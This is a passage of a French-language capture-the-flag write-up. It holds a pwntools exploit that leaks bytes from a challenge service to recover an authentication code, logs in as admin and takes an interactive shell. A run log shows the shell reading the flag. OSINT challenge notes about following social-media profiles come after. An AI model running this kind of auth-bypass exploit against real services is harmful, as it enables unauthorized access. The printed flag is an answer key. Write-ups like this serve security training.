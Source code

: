 Voici le script :

```python
from pwn import *

conn = remote('34.123.210.162', 20231)

conn.send(b'2\r\n')
conn.recvuntil(b'Options')

leak = conn.recvuntil(b'Options')[-10:-8]
value = leak[1] * 256 + leak[0]

conn.send(b'1\r\nadmin\r\n')
conn.send(b'3\r\n' + str(value).encode() + b'\r\n')

conn.interactive()
conn.close()
```

Ce programme récupère les deux octets qui nous intéresse (avec `recvuntil`),
renseigne l'username `admin`, se connecte avec le code trouvé et nous rend la
main avec le shell que le programme à ouvert à l'aide de la méthode
`interactive`.

Essai :
```
[+] Opening connection to 34.123.210.162 on port 20231: Done
[*] Switching to interactive mode
: (1) Enter username, (2) Confirm username, (3) Done: Username: Options: (1) Enter username, (2) Confirm username, (3) Done: Logging in as 'admin'
Enter your authentication code: $
$ id
uid=1001(re3) gid=1002(re3) groups=1002(re3)
$ cat flag.txt
poctf{uwsp_7h3_1355_y0u_kn0w_7h3_837732}
```

flag : `poctf{uwsp_7h3_1355_y0u_kn0w_7h3_837732}`

# OSINT

## All is Green and Comfort

Non résolue

## A Great Interior Desert

L'indice donné dans cette épreuve est le profil de quelqu'un sur le réseau
social `mastodon` : [https://mastodon.social/@free_jack_marigold](https://mastodon.social/@free_jack_marigold).

Sur ce profil on peut trouver une référence à un autre profil, cette fois sur
twitter, celui de `@jock_bronson` : [https://twitter.com/jock_bronson](https://twitter.com/jock_bronson)
